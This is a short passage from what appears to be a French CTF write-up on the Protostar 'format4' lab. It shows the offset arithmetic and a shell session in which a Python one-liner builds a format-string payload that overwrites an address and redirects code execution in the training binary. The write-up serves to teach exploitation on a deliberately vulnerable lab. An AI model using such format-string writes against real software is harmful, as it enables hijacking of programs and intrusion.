 `0x84b4 - 4` donne `33968`. C'est ce qu'il faut écrire après les 4 octets de l'adresse :

```shellsession
user@protostar:/opt/protostar/bin$ python -c 'import struct; print struct.pack("<I", 0x08049724) + "%33968x" + "%4$hn"' > /tmp/input 
user@protostar:/opt/protostar/bin$ ./format4 < /tmp/input
--- snip ---
code execution redirected! you win
```

Il ne reste que les 3 binaires `final` et ce sera terminé pour ce `Protostar` :)

*Publié le 26 janvier 2023*
